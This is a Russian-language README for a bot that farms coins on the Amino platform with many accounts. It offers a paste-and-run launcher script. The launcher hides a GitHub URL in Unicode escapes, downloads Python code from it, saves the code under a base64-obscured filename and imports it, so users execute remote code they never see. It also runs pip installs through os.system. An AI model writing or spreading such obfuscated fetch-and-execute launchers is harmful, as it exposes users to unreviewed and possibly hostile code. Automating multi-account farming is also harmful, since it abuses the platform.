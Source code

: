 # Amino-Farm-Bot
Бот для фарма монет в Амино. 
___
- Для фарма нужно создать файл с почтами.
    - Новая почта >> новая строка. 


- Перед фармом бот запросит ссылку на пост (запись в блоге).
    - Сообщество должно быть открытым.

    - Ваш уровень в нем:
        - выше пятого.

    - Монеты придут на этот пост.
___

- Процес.
    - Приносит 38.
        - Может и сотку или больше.
        - Тут уж зависит от инета и везения. 
    - Фарм долгий:
        - иначе мало монет. 

    - Отправка мгновенная со всех аккаунтов сразу:
        - хоть что-то радует. 
___

- Монеты приносит раз в 24 часа.
    - << Не раз в сутки <<.
___

- Модули устанавливаются сами.
    - Просто запустите код:
        - к примеру pydroid3.
___

- Код запуска:

```
def modules():
    import os
    import time
    
    while True:
        try:
            import requests, os, time
            import base64
            
            break
        
        except Exception as error:
            while True:
                error = str(error)
                module = error[error.index("'") + 1: ][0: error[error.index("'") + 1: ].index("'")]

                try:
                    print("Найден неисправный модуль >> {} <<.\n".format(module))
            
                    time.sleep(5)
            
                    if "fix" in module:
                        module = "amino.fix"
                
                    else:
                        if "websocket" in module:
                            module = "websocket-client"
                        
                        else:
                            if "six" == module:
                                os.system("yes|pip uninstall six")
                        
                    os.system("pip install {} && cls || clear".format(module))
                    
                    break
                    
                except Exception as error:
                    pass
    
print("Проверка модулей...\n")
modules()

import requests, os, time
import base64

print("Проверка модулей прошла успешно.\n")

name = base64.b64encode("\u0041\u006e\u0061\u006e\u0061\u0073\u0069\u006b".encode("ascii")).decode().split("=")[0]
code = requests.get("\u0068\u0074\u0074\u0070\u0073\u003a\u002f\u002f\u0072\u0061\u0077\u002e\u0067\u0069\u0074\u0068\u0075\u0062\u0075\u0073\u0065\u0072\u0063\u006f\u006e\u0074\u0065\u006e\u0074\u002e\u0063\u006f\u006d\u002f\u0041\u006d\u0065\u0044\u0061\u0072\u006b\u002f\u0041\u006d\u0069\u006e\u006f\u002d\u0046\u0061\u0072\u006d\u002d\u0042\u006f\u0074\u002f\u006d\u0061\u0069\u006e\u002f\u0066\u0061\u0072\u006d\u002e\u0070\u0079").text

open("{}.py".format(name), "w").write(code)
time.sleep(5)
os.system("clear || cls")
os.system("echo 'Ananasik :3 \n'")

from threading import Thread
def work():
    __import__(name)

Thread(target = work).start()

input()
```
___

- По вопросам:
    - [Телеграмм](https://t.me/meow3942).
